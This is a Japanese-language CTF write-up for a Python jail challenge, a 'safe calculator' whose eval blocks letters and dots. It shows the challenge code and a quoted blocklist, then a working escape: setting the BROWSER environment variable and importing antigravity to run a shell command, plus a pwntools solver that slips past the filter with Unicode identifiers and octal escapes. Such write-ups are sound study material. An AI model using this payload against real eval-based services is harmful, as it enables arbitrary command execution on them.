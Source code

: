 482 points / 14 solves

- 問題コード

```py:third.py
import sys

print("This is a safe calculator")

inp = input("Formula: ")

sys.stdin.close()

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ."

if any(x in inp for x in blacklist):
    print("Nice try")
    exit()

fns = {
    "__builtins__": {"setattr": setattr, "__import__": __import__, "chr": chr}
}

print(eval(inp, fns, fns))
```

競技中は解けなかった問題。  
Python jailの問題2。使えるモジュールに制限が加えられている。  
`getattr`が使えれば`getattr(__import__('os'),'system')('cat flag')`のような形が作れたと思うが、`.`が使えないため解けなかった。

idek 2022* CTFのWriteupを参考にする。
<https://crazymanarmy.github.io/2023/01/18/idek-2022-CTF-Pyjail-Pyjail-Revenge-Writeup/>

```py
blocklist = ['.', '\\', '[', ']', '{', '}',':', "blocklist", "globals", "compile"]
DISABLE_FUNCTIONS = ["getattr", "eval", "exec", "breakpoint", "lambda", "help"]
DISABLE_FUNCTIONS = {func: None for func in DISABLE_FUNCTIONS}
```

この記事の解法の3番目を利用する。  
環境変数`BROWSER`を書き換えてantigravityモジュールを呼び出すことでコマンドを実行できるらしい。  
antigravityモジュールはPythonのEaster Eggの一つで、元々の挙動はPythonに関する漫画サイト<https://xkcd.com/353/>に遷移する。その際の起動ブラウザがBROWSER変数によって書き換わるためコマンドが実行される仕掛けみたい。

今回はdictは使えないので、代わりに`{"BROWSER":"..."}`を使う。

```py
__import_('antigravity',setattr(__import__('os'),'environ',{'BROWSER':'/bin/sh -c "cat flag" #%s'}))
```

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

io = remote('localhost', 1337)
# io = remote('challs.tfcctf.com', 31321)
msg = io.recvuntil(b'Formula: ')
io.sendline("__𝑖𝑚𝑝𝑜𝑟𝑡__('\141\156\164\151\147\162\141\166\151\164\171',𝑠𝑒𝑡𝑎𝑡𝑡𝑟(__𝑖𝑚𝑝𝑜𝑟𝑡__('\157\163'),'\145\156\166\151\162\157\156',{'\102\122\117\127\123\105\122':'\57\142\151\156\57\163\150\40\55\143\40\42\143\141\164\40\146\154\141\147\42\40\43\45\163'}))")
io.interactive()
```
